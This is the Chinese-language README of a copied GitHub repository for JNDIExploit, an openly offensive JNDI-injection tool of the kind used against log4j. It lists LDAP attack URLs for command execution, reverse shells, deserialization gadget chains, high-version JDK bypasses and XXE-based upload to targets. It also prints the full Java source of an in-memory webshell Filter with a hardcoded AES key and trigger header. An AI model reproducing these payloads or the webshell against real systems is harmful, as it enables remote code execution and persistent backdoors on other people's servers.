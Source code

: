 # Credits
    * Full credits to feihong-cs. I have just copied this repo for my reference to work with log4j if there is anything which i face. *




# JNDIExploit
一款用于 ```JNDI注入``` 利用的工具，大量参考/引用了 ```Rogue JNDI``` 项目的代码，支持直接```植入内存shell```，并集成了常见的```bypass 高版本JDK```的方式，适用于与自动化工具配合使用。

## 使用说明

使用 ```java -jar JNDIExploit.jar -h``` 查看参数说明，其中 ```--ip``` 参数为必选参数

```
Usage: java -jar JNDIExploit.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

使用 ```java -jar JNDIExploit.jar -u``` 查看支持的 LDAP 格式
```
Supported LADP Queries
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
    ldap://127.0.0.1:1389/Basic/Command/[cmd]
    ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Basic/TomcatEcho
    ldap://127.0.0.1:1389/Basic/SpringEcho
    ldap://127.0.0.1:1389/Basic/WeblogicEcho
    ldap://127.0.0.1:1389/Basic/TomcatMemshell1
    ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [shell: true]
    ldap://127.0.0.1:1389/Basic/JettyMemshell
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
    ldap://127.0.0.1:1389/Basic/JBossMemshell
    ldap://127.0.0.1:1389/Basic/WebsphereMemshell
    ldap://127.0.0.1:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
    ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
    ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
    ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
    ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [shell: true]
    ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell

[+] GroovyBypass Queries
    ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
    ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]

[+] WebsphereBypass Queries
    ldap://127.0.0.1:1389/WebsphereBypass/List/file=[file or directory]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/[domain]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/[cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/WebsphereMemshell
    ldap://127.0.0.1:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp
```
* 目前支持的所有 ```PayloadType``` 为
  * ```Dnslog```: 用于产生一个```DNS```请求，与 ```DNSLog```平台配合使用，对```Linux/Windows```进行了简单的适配
  * ```Command```: 用于执行命令，如果命令有特殊字符，支持对命令进行 ```Base64编码```后传输
  * ```ReverseShell```: 用于 ```Linux``` 系统的反弹shell，方便使用
  * ```TomcatEcho```: 用于在中间件为 ```Tomcat``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```SpringEcho```: 用于在框架为 ```SpringMVC/SpringBoot``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WeblogicEcho```: 用于在中间件为 ```Weblogic``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```TomcatMemshell1```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```TomcatMemshell2```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```, 使用时需要添加额外的```HTTP Header``` ```Shell: true```, **推荐**使用此方式
  * ```SpringMemshell```: 用于植入```Spring内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell1```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell2```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```，**推荐**使用此方式
  * ```JettyMemshell```: 用于植入```Jetty内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```JBossMemshell```: 用于植入```JBoss内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WebsphereMemshell```: 用于植入```Websphere内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
* 目前支持的所有 ```GadgetType``` 为
  * ```URLDNS```
  * ```CommonsBeanutis1```
  * ```CommonsBeanutis2```
  * ```CommonsCollections1```
  * ```CommonsCollections2```
  * ```C3P0```
  * ```Jdk7u21```
  * ```Jre8u20```
  * ```CVE-2020-2551```
  * ```CVE-2020-2883```
* ```WebsphereBypass``` 中的 3 个动作：
  * ```list```：基于```XXE```查看目标服务器上的目录或文件内容
  * ```upload```：基于```XXE```的```jar协议```将恶意```jar包```上传至目标服务器的临时目录
  * ```rce```：加载已上传至目标服务器临时目录的```jar包```，从而达到远程代码执行的效果（这一步本地未复现成功，抛```java.lang.IllegalStateException: For application client runtime, the client factory execute on a managed server thread is not allowed.```异常，有复现成功的小伙伴麻烦指导下）

## ```内存shell```说明
* 采用动态添加 ```Filter/Controller```的方式，并将添加的```Filter```移动至```FilterChain```的第一位
* ```内存shell``` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
* ```Basic cmd shell``` 的访问方式为 ```/anything?type=basic&pass=[cmd]```
* ```Behinder shell``` 的访问方式需要修改```冰蝎```客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 ```X-Options-Ai``` 头部，密码为```rebeyond```

植入的 Filter 代码如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[+] Dynamic Filter says hello");
        String k;
        Cipher cipher;
        if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
            k = servletRequest.getParameter("pass");
            if (k != null && !k.isEmpty()) {
                cipher = null;
                String[] cmds;
                if (File.separator.equals("/")) {
                    cmds = new String[]{"/bin/sh", "-c", k};
                } else {
                    cmds = new String[]{"cmd", "/C", k};
                }

                String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                servletResponse.getWriter().println(result);
            }
        } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
            try {
                if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                    k = "e45e329feb5d925b";
                    ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                    cipher = Cipher.getInstance("AES");
                    cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
                    byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                    Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                    Object evilObject = evilClass.newInstance();
                    Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                    targetMethod.invoke(evilObject, servletRequest, servletResponse);
                }
            } catch (Exception var10) {
                var10.printStackTrace();
            }
        } else {
            filterChain.doFilter(servletRequest, servletResponse);
        }

    }
 ```
 
 ## 参考
 * https://github.com/veracode-research/rogue-jndi
 * https://github.com/welk1n/JNDI-Injection-Exploit
 * https://github.com/welk1n/JNDI-Injection-Bypass
